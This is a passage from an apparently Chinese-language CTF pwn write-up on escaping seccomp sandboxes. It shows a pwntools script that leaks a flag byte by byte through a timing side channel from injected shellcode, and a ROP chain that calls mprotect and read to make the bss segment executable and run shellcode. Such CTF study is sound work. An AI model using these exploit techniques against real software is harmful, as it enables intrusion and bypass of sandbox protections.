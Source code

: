 ![image](/assets/image /2025-08-01-my-second-post.assets/3458477-20250416202329599-36135792.png)

现在假设flag已经读到了栈上，但是没有办法读（没有系统调用 & close(1)）。

那么可以进行爆破，因为没有返回，所以爆破就只能看时间来判断。

> ```python
> flag = ''
> for offset in range(30):
> for byte in range(0x20,0x80):
>   sh = process("./shellcode")
>   shell = asm(shellcode + """
>       infinite_loop: 
>       cmp byte ptr[rsp+{}], {}
>       je infinite_loop
>           """.format(str(offset),str(byte)))
>   sh.sendlineafter("shellcode: \n",shell)
>   try:
>       sh.recv(timeout=0.2)
>       flag += chr(byte)
>       print(flag + "---" + str(byte))
>       sh.close()
>       break
>   except:
>       pass
> 
>   print(flag + "---" + str(byte))
>   sh.close()
> ```
>
> shellcode为读取文件的code。

![image](/assets/image /2025-08-01-my-second-post.assets/3458477-20250416202339098-646922745.png)

> 很慢，但可行。

### 转32位

利用条件

- 沙箱没有arch==ARCH_x86_64检测
- 可以使用mmmap或者mprotect和32位的地址

> **rop**
>
> 可以调用mprotect来转化成写shellcode
>
> ```python
> bss_addr = 0x000000000404020  # 写bss段
> exec_fd = (bss_addr >> 12) << 12
> rop = b"a" * 0x18
> rop += flat(pop_rdi, exec_fd, pop_rsi, 0x1000, pop_rdx_r12, 7, 0, libc.sym["mprotect"])
> rop += flat(pop_rdi, 0, pop_rsi, exec_fd, pop_rdx_r12, 0x1000, 0, libc.sym["read"], exec_fd)
> 
> sh.sendline(rop)
> sh.sendline([shellcode]) # 填写shellcode
> ```
